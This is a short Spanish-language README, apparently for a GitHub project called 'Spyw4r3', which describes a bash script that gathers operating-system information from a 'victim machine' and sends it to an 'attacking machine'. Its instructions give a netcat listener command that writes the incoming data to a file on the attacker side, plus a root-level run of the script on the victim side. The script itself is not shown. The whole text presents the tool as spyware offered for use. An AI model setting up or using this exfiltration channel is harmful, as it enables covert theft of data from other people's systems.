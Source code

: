 # Spyw4r3

Script en bash que recolecta informacion del sistema operativo y envia los datos a una maquina atacante

# Intrucciones 

Desde la maquina atacante 
```
nc -nlvp <PORT> >> data.txt
```

Desde la maquina victima 
```
sudo bash spyw4r3.sh
```


